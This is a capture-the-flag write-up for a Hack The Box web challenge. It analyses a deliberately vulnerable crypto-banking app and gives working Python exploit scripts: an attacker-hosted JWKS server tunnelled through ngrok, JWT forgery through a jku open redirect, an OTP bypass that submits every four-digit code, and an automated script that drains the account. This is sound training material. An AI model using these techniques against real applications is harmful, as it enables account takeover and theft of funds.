





<font size="10">Breaking Bank</font><br>
20<sup>th</sup> Nov 2024 / Document No. D24.102.262

**Prepared By:** Xclow3n

**Challenge Author:** Makelaris

**Difficulty:** <font color=green>Easy</font>

**Classification:** Official

## [Synopsis](#synopsis)

The challenge involves bypassing OTP validation and exploiting the misuse of the JKU claim to forge JWT tokens. The objective is to drain the financial controller's cryptocurrency balance (`CLCR`) and retrieve a hidden flag from the dashboard.

## [Solution](#solution)

### Understanding the application

When you first visit the application's home page, you're greeted with an authentication interface that prompts you to register or log in. Registering a new account involves providing an email and password.



After successfully creating an account, you log in to access the user dashboard.



Here, you notice that your portfolio balance starts at zero.



As you explore further, you find features like adding friends and sending money to friends,




but without an initial balance, direct financial gain isn't immediately possible. This observation suggests there might be hidden vulnerabilities to exploit.

### Analyzing the Backend Code

Diving into the backend code, taking a look at `dashboard.js`,

```javascript
import { checkFinancialControllerDrained } from "../services/flagService.js";

export default async function dashboardRouter(fastify) {
  fastify.get("/", async (req, reply) => {
    if (!req.user) {
      reply.status(401).send({ error: "Unauthorized: User not authenticated" });
      return;
    }

    const { email } = req.user;

    if (!email) {
      reply.status(400).send({ error: "Email not found in token" });
      return;
    }

    const { drained, flag } = await checkFinancialControllerDrained();

    if (drained) {
      reply.send({ message: "Welcome to the Dashboard!", flag });
      return;
    }

    reply.send({ message: "Welcome to the Dashboard!" });
  });
}
```

and `flagService.js`:

```javascript
import { getBalancesForUser } from "../services/coinService.js";
import fs from "fs/promises";

const FINANCIAL_CONTROLLER_EMAIL = "financial-controller@frontier-board.htb";

/**
 * Checks if the financial controller's CLCR wallet is drained
 * If drained, returns the flag.
 */
export const checkFinancialControllerDrained = async () => {
  const balances = await getBalancesForUser(FINANCIAL_CONTROLLER_EMAIL);
  const clcrBalance = balances.find((coin) => coin.symbol === "CLCR");

  if (!clcrBalance || clcrBalance.availableBalance <= 0) {
    const flag = (await fs.readFile("/flag.txt", "utf-8")).trim();
    return { drained: true, flag };
  }

  return { drained: false };
};
```

The `dashboard.js` file contains logic that checks whether the financial controller's `CLCR` balance is drained. If the balance is zero or less, it triggers the display of a hidden flag on the dashboard. The `flagService.js` file retrieves the `CLCR` balance of the financial controller (`financial-controller@frontier-board.htb`) and reads the flag from the filesystem if the balance meets the required condition. This makes it clear that your main goal is to drain the `CLCR` balance of the financial controller to reveal the flag.

### JKU Claim Misuse

The application uses JWTs (JSON Web Tokens) for authentication, signed with the RS256 algorithm. A key observation is that the JWT verification process relies on the `jku` (JWT Key URL) claim, which specifies where to fetch the JWKS (JSON Web Key Set) for public key verification.
**JWT Verification Using JKU Claim:**

```javascript
import crypto from "crypto";
import jwt from "jsonwebtoken";
import axios from "axios";
import { v4 as uuidv4 } from "uuid";
import { setKeyWithTTL, getKey } from "../utils/redisUtils.js";

const KEY_PREFIX = "rsa-keys";
const JWKS_URI = "http://127.0.0.1:1337/.well-known/jwks.json";
const KEY_ID = uuidv4();

export const generateKeys = async () => {
  const { privateKey, publicKey } = crypto.generateKeyPairSync("rsa", {
    modulusLength: 2048,
    publicKeyEncoding: { type: "spki", format: "pem" },
    privateKeyEncoding: { type: "pkcs8", format: "pem" },
  });

  const publicKeyObject = crypto.createPublicKey(publicKey);
  const publicJwk = publicKeyObject.export({ format: "jwk" });

  const jwk = {
    kty: "RSA",
    ...publicJwk,
    alg: "RS256",
    use: "sig",
    kid: KEY_ID,
  };

  const jwks = {
    keys: [jwk],
  };

  await setKeyWithTTL(`${KEY_PREFIX}:private`, privateKey, 0);
  await setKeyWithTTL(`${KEY_PREFIX}:jwks`, JSON.stringify(jwks), 0);
};

const getPrivateKey = async () => {
  const privateKey = await getKey(`${KEY_PREFIX}:private`);
  if (!privateKey) {
    throw new Error("Private key not found in Redis. Generate keys first.");
  }
  return privateKey;
};

...SNIP...

export const createToken = async (payload) => {
  const privateKey = await getPrivateKey();
  return jwt.sign(payload, privateKey, {
    algorithm: "RS256",
    header: {
      kid: KEY_ID,
      jku: JWKS_URI,
    },
  });
};

export const verifyToken = async (token) => {
  try {
    const decodedHeader = jwt.decode(token, { complete: true });

    if (!decodedHeader || !decodedHeader.header) {
      throw new Error("Invalid token: Missing header");
    }

    const { kid, jku } = decodedHeader.header;

    if (!jku) {
      throw new Error("Invalid token: Missing header jku");
    }

    // TODO: is this secure enough?
    if (!jku.startsWith("http://127.0.0.1:1337/")) {
      throw new Error(
        "Invalid token: jku claim does not start with http://127.0.0.1:1337/",
      );
    }

    if (!kid) {
      throw new Error("Invalid token: Missing header kid");
    }

    if (kid !== KEY_ID) {
      return new Error("Invalid token: kid does not match the expected key ID");
    }

    let jwks;
    try {
      const response = await axios.get(jku);
      if (response.status !== 200) {
        throw new Error(`Failed to fetch JWKS: HTTP ${response.status}`);
      }
      jwks = response.data;
    } catch (error) {
      throw new Error(`Error fetching JWKS from jku: ${error.message}`);
    }

    if (!jwks || !Array.isArray(jwks.keys)) {
      throw new Error("Invalid JWKS: Expected keys array");
    }

    const jwk = jwks.keys.find((key) => key.kid === kid);
    if (!jwk) {
      throw new Error("Invalid token: kid not found in JWKS");
    }

    if (jwk.alg !== "RS256") {
      throw new Error("Invalid key algorithm: Expected RS256");
    }

    if (!jwk.n || !jwk.e) {
      throw new Error("Invalid JWK: Missing modulus (n) or exponent (e)");
    }

    const publicKey = jwkToPem(jwk);

    const decoded = jwt.verify(token, publicKey, { algorithms: ["RS256"] });
    return decoded;
  } catch (error) {
    console.error(`Token verification failed: ${error.message}`);
    throw error;
  }
};

...SNIP...
```

The application uses JWTs for authentication, signing tokens with the RS256 algorithm. A critical aspect of this implementation is its reliance on the jku claim within the JWT header, which specifies the URL from which to fetch the JWKS necessary for verifying the token's signature. During token validation, the application checks if the `jku` starts with `http://127.0.0.1:1337/`. This practice is problematic because if an attacker can create or overwrite files on the server through file uploads or other vulnerabilities, or if there is an open redirect vulnerability, they could exploit this to point the jku to a malicious JWKS server. Consequently, the attacker could forge their own valid tokens, bypassing authentication and gaining unauthorized access.

Additionally, the `/api/analytics/redirect` endpoint decodes and redirects to URLs provided via query parameters without stringent validation.

```javascript
import { trackClick, getAnalyticsData } from "../services/analyticsService.js";

export default async function analyticsRoutes(fastify) {
  fastify.get("/redirect", async (req, reply) => {
    const { url, ref } = req.query;

    if (!url || !ref) {
      return reply.status(400).send({ error: "Missing URL or ref parameter" });
    }
    // TODO: Should we restrict the URLs we redirect users to?
    try {
      await trackClick(ref, decodeURIComponent(url));
      reply.header("Location", decodeURIComponent(url)).status(302).send();
    } catch (error) {
      console.error("[Analytics] Error during redirect:", error.message);
      reply.status(500).send({ error: "Failed to track analytics data." });
    }
  });

  fastify.get("/data", async (req, reply) => {
    const { start = 0, limit = 10 } = req.query;

    try {
      const analyticsData = await getAnalyticsData(
        parseInt(start),
        parseInt(limit),
      );
      reply.send(analyticsData);
    } catch (error) {
      console.error("[Analytics] Error fetching data:", error.message);
      reply.status(500).send({ error: "Failed to fetch analytics data." });
    }
  });
}
```

This is vulnerable to open redirect and it can be exploited to manipulate the `jku` URL in the JWT, pointing it to a malicious JWKS server.

Moving on taking a look at: `otpMiddleware.js`

```javascript
import { hgetField } from "../utils/redisUtils.js";

export const otpMiddleware = () => {
  return async (req, reply) => {
    const userId = req.user.email;
    const { otp } = req.body;

    const redisKey = `otp:${userId}`;
    const validOtp = await hgetField(redisKey, "otp");

    if (!otp) {
      reply.status(401).send({ error: "OTP is missing." });
      return;
    }

    if (!validOtp) {
      reply.status(401).send({ error: "OTP expired or invalid." });
      return;
    }

    // TODO: Is this secure enough?
    if (!otp.includes(validOtp)) {
      reply.status(401).send({ error: "Invalid OTP." });
      return;
    }
  };
};
```

The OTP validation mechanism checks if the provided OTP is included in a list of OTPs (`otpList`). This inclusion-based check can be exploited by providing a list of possible OTPs, ensuring that at least one matches the stored OTP, thereby bypassing the exact match requirement.

The friend request endpoints allow users to send and accept friend requests. When combined with a forged JWT, these endpoints can establish trusted relationships between unauthorized users, facilitating unauthorized financial transactions.

### Exploiting the Vulnerabilities

#### Setting Up the Malicious JWKS Server

First, set up a malicious JWKS server that hosts your public key. This involves generating a new RSA key pair using the `Crypto` library. The public key is then encoded in Base64 URL format and included in a forged JWKS. You develop a simple Flask application that serves this forged JWKS on a specified port (e.g., `9000`). To make this server accessible over the internet, you use `ngrok` to tunnel the local Flask server, providing a publicly accessible URL that points to the JWKS server. This setup allows the application to fetch your malicious public key during JWT verification.

```python
from flask import Flask, jsonify
from jwt.utils import base64url_encode
from Crypto.PublicKey import RSA

app = Flask(__name__)

# Generate RSA Key Pair
key_pair = RSA.generate(2048)
pub_key = key_pair.publickey()
priv_key = key_pair.export_key('PEM')

# Prepare JWKS data
jwks_data = {
    'keys': [{
        'alg': 'RS256',
        'kty': 'RSA',
        'use': 'sig',
        'n': base64url_encode(int.to_bytes(pub_key.n, (pub_key.n.bit_length() + 7) // 8, 'big')).decode(),
        'e': base64url_encode(int.to_bytes(pub_key.e, (pub_key.e.bit_length() + 7) // 8, 'big')).decode(),
        'kid': 'unique-key-id',
    }]
}

@app.route('/.well-known/jwks.json', methods=['GET'])
def serve_jwks():
    return jsonify(jwks_data), 200

if __name__ == '__main__':
    app.run(port=9000)
```

Run the Flask server and expose it using `ngrok`:

```bash
ngrok http 9000
```

Note the public URL provided by `ngrok` (e.g., `https://abcdef.ngrok.io/.well-known/jwks.json`).

#### Crafting the Forged JWT

Create a JWT that impersonates the financial controller by setting the `email` claim accordingly. The `jku` claim should point to your malicious JWKS server.

```python
import jwt
import datetime

# Replace with your ngrok URL
jku_url = 'https://abcdef.ngrok.io/.well-known/jwks.json'

payload = {
    'email': 'financial-controller@frontier-board.htb',
    'iat': datetime.datetime.utcnow(),
    'exp': datetime.datetime.utcnow() + datetime.timedelta(hours=6)
}

headers = {
    'alg': 'RS256',
    'typ': 'JWT',
    'kid': 'unique-key-id',
    'jku': jku_url
}

forged_token = jwt.encode(payload, priv_key, algorithm='RS256', headers=headers)
print(f'Forged JWT: {forged_token}')
```

#### Using the Open Redirect to Manipulate the `jku` URL

The `/api/analytics/redirect` endpoint can be exploited to redirect the `jku` to your malicious JWKS server. By crafting a URL that leverages this redirect, you ensure that the application fetches your malicious JWKS during JWT verification.

```python
redirect_url = 'https://abcdef.ngrok.io/.well-known/jwks.json'  # Your malicious JWKS URL
exploit_jku = f'http://127.0.0.1:1337/api/analytics/redirect?ref=malicious&url={redirect_url}/'

headers['jku'] = exploit_jku

forged_token = jwt.encode(payload, priv_key, algorithm='RS256', headers=headers)
print(f'Forged JWT with redirect: {forged_token}')
```

#### Validating the Forged JWT

Send the forged JWT to the `/api/dashboard` endpoint to validate its legitimacy.

```python
import requests

response = requests.get('http://127.0.0.1:1337/api/dashboard', headers={'Authorization': f'Bearer {forged_token}'})
if response.status_code == 200:
    print('JWT validated successfully!')
    print(response.json())
else:
    print('JWT validation failed.')
    print(response.text)
```

If successful, the application will treat you as the financial controller.

### Bypassing OTP Validation

The OTP (One-Time Password) validation mechanism in `otpMiddleware.js` checks if the provided OTP is included in a list of OTPs (`otpList`). This inclusion-based check can be exploited by providing a list of possible OTPs, ensuring that at least one matches the stored OTP, thereby bypassing the exact match requirement.

1. **Generate a List of Possible OTPs:**

   Create a list of all possible 4-digit OTPs.

   ```python
   otps = [str(i).zfill(4) for i in range(1000, 10000)]
   ```

2. **Send OTPs with Transaction Requests:**

   When making a transaction, include the list of OTPs to satisfy the inclusion check.

   ```python
   transaction_payload = {
       'to': 'dummy@htb.com',
       'coin': 'CLCR',
       'amount': 1000,
       'otp': otps
   }

   response = requests.post('http://127.0.0.1:1337/api/crypto/transaction', json=transaction_payload, headers={'Authorization': f'Bearer {forged_token}'})

   if response.status_code == 200:
       print('Transaction successful!')
   else:
       print('Transaction failed.')
       print(response.text)
   ```

   This approach bypasses the OTP validation by ensuring that at least one OTP in the list matches the stored OTP.

### Automating the Exploit

To streamline the entire exploit process, you can combine all steps into a single script that automates user registration, login, friend requests, transaction execution, and flag retrieval.

```python
import requests, jwt, datetime, os
from Crypto.PublicKey import RSA
from pyngrok import ngrok
from flask import Flask, jsonify
from jwt.utils import base64url_encode

HOST = 'http://127.0.0.1:1337'
REMOTE_JWKS = f'{HOST}/.well-known/jwks.json'
JWKS_PORT = 9000
FINANCIAL_EMAIL = 'financial-controller@frontier-board.htb'
COIN_SYMBOL = 'CLCR'

app = Flask(__name__)

jwks_data = {}

@app.route('/', methods=['GET'])
def serve_jwks():
    try:
        return jsonify(jwks_data), 200
    except Exception as e:
        app.logger.error(f'Error serving JWKS: {str(e)}')
        return jsonify({'error': 'Internal Server Error'}), 500

def fetch_kid_from_jwks():
    response = requests.get(REMOTE_JWKS)
    jwks = response.json()
    if 'keys' in jwks and len(jwks['keys']) > 0:
        kid = jwks['keys'][0]['kid']
        print(f'[+] Extracted kid: {kid}')
        return kid
    else:
        print('[-] No keys found in JWKS.')
        return None

def open_redirect(redirect):
    return  f'http://127.0.0.1:1337/api/analytics/redirect?ref=deeznuts&url={redirect}/'

def create_forged_jwt(jku_url, kid, priv_key, payload):
    headers = {
        'alg': 'RS256',
        'typ': 'JWT',
        'kid': kid,
        'jku': open_redirect(jku_url),
    }
    token = jwt.encode(payload, priv_key, algorithm='RS256', headers=headers)
    return token

def validate_token(token):
    response = requests.get(f'{HOST}/api/dashboard', headers={'Authorization': f'Bearer {forged_token}'})
    if response.status_code == 200:
        print('[+] JWT validation successful! Response:')
        print(response.json())
    else:
        print(f'[!] JWT validation failed. Status: {response.status_code}, Response: {response.text}')

print('[+] Generating RSA Key Pair...')
key_pair = RSA.generate(2048)
pub_key = key_pair.publickey()
priv_key = key_pair.export_key('PEM')

kid = fetch_kid_from_jwks()
print('[+] Fetching kid ...')

jwks_data = {
    'keys': [{
        'alg': 'RS256',
        'kty': 'RSA',
        'use': 'sig',
        'n': base64url_encode(int.to_bytes(pub_key.n, (pub_key.n.bit_length() + 7) // 8, 'big')).decode(),
        'e': base64url_encode(int.to_bytes(pub_key.e, (pub_key.e.bit_length() + 7) // 8, 'big')).decode(),
        'kid': kid,
    }]
}

def start_flask_app():
    app.run(host='127.0.0.1', port=JWKS_PORT, debug=True, use_reloader=False)

from threading import Thread
flask_thread = Thread(target=start_flask_app)
flask_thread.daemon = True
flask_thread.start()

print(f'[+] Flask JWKS Server is running on http://localhost:{JWKS_PORT}')

print('[+] Creating ngrok tunnel...')
ngrok.set_auth_token('YOUR_NGROK_AUTH_TOKEN')
public_url = ngrok.connect(JWKS_PORT, 'tcp').public_url.replace('tcp://', 'http://')

print(f'[+] JWKS Public URL: {public_url}')

# Create a forged JWT
payload = {
    'email': FINANCIAL_EMAIL,
    'iat': datetime.datetime.utcnow(),
    'exp': datetime.datetime.utcnow() + datetime.timedelta(days=0, hours=6, seconds=0)
}

forged_token = create_forged_jwt(public_url, kid, priv_key, payload)
print(f'[~] Forged JWT: {forged_token}')

print('[+] Validating forged JWT against /api/dashboard...')
validate_token(forged_token)

ngrok.disconnect(public_url)
print('[+] Cleanup completed.')

def register_user(email, password):
    user = {'email': email, 'password': password}
    r = requests.post(f'{HOST}/api/auth/register', json=user)
    if r.status_code == 200:
        print(f'User registered successfully: {email}')
    else:
        print(f'Failed to register user: {email}, Response: {r.text}')

def login_user(email, password):
    user = {'email': email, 'password': password}
    r = requests.post(f'{HOST}/api/auth/login', json=user)
    if r.status_code == 200:
        data = r.json()
        token = data['token']
        print(f'Login successful for: {email}, Token: {token}')
        return token
    else:
        print(f'Login failed for: {email}, Response: {r.text}')
        return None

def send_friend_request(token, to_email):
    r = requests.post(
        f'{HOST}/api/users/friend-request',
        json={'to': to_email},
        headers={'Authorization': f'Bearer {token}'}
    )
    if r.status_code == 200:
        print(f'Friend request sent to: {to_email}')
    else:
        print(f'Failed to send friend request to {to_email}: {r.text}')

def fetch_friend_requests(token):
    r = requests.get(
        f'{HOST}/api/users/friend-requests',
        headers={'Authorization': f'Bearer {token}'}
    )
    if r.status_code == 200:
        requests_data = r.json()
        print('Pending friend requests:', requests_data.get('requests', []))
    else:
        print(f'Failed to fetch friend requests: {r.status_code} {r.text}')

def accept_friend_request(token, from_email):
    r = requests.post(
        f'{HOST}/api/users/accept-friend',
        json={'from': from_email},
        headers={'Authorization': f'Bearer {token}'}
    )
    if r.status_code == 200:
        print(f'Friend request from {from_email} accepted.')
    else:
        print(f'Failed to accept friend request from {from_email}: {r.text}')

def fetch_balance(token):
    r = requests.get(f'{HOST}/api/crypto/balance', headers={'Authorization': f'Bearer {token}'})
    if r.status_code == 200:
        balances = r.json()
        for coin in balances:
            if coin['symbol'] == COIN_SYMBOL:
                print(f'Balance for {COIN_SYMBOL}: {coin["availableBalance"]}')
                return coin['availableBalance']
        else:
            print(f'Failed to fetch balances: {r.text}')
    return 0

def make_transaction(token, to_email, coin, amount):
    otps = [str(i).zfill(4) for i in range(1000, 10000)]

    r = requests.post(
        f'{HOST}/api/crypto/transaction',
        json={'to': to_email, 'coin': coin, 'amount': amount, 'otp': otps},
        headers={'Authorization': f'Bearer {token}'}
    )
    if r.status_code == 200:
        print(f'Transaction of {amount} {coin} to {to_email} completed successfully.')
    else:
        print(f'Failed to make transaction to {to_email}: {r.text}')

def fetch_flag(token):
    r = requests.get(f'{HOST}/api/dashboard', headers={'Authorization': f'Bearer {token}'})
    if r.status_code == 200:
        data = r.json()
        if 'flag' in data:
            print(f'Flag: {data["flag"]}')
        else:
            print('Flag not found in the response.')
    else:
        print(f'Failed to fetch dashboard: {r.text}')

dummy_user = {'email': f'dummy{os.urandom(4).hex()}@htb.com', 'password': '123'}

register_user(dummy_user['email'], dummy_user['password'])

dummy_token = login_user(dummy_user['email'], dummy_user['password'])

if dummy_token:
    send_friend_request(dummy_token, FINANCIAL_EMAIL)

financial_token = forged_token

if financial_token:
    fetch_friend_requests(financial_token)
    accept_friend_request(financial_token, dummy_user['email'])

if financial_token and dummy_token:
    cluster_credit_balance = fetch_balance(financial_token)
    if cluster_credit_balance > 0:
        make_transaction(financial_token, dummy_user['email'], COIN_SYMBOL, cluster_credit_balance)

    fetch_flag(financial_token)
```
